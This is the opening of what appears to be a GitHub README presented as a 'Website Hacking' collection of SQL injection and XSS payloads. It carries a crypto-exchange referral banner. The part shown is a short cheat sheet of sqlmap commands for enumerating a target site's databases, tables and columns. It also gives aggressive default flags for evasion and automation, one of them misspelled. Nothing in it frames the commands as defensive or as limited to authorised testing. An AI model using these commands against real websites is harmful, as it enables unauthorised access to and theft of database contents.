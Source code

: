 <p align="center">
  <a href="https://www.gate.io/ref/3301721" target="_blank"><img width="480" height="150" src="https://media.giphy.com/media/r5PH7oEtPW7hCnZiWN/giphy.gif"> CryptoERA
</p>

# <p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p> SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

### Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' --dbms='BaseName' -D name.db --tables

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables --columns

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep
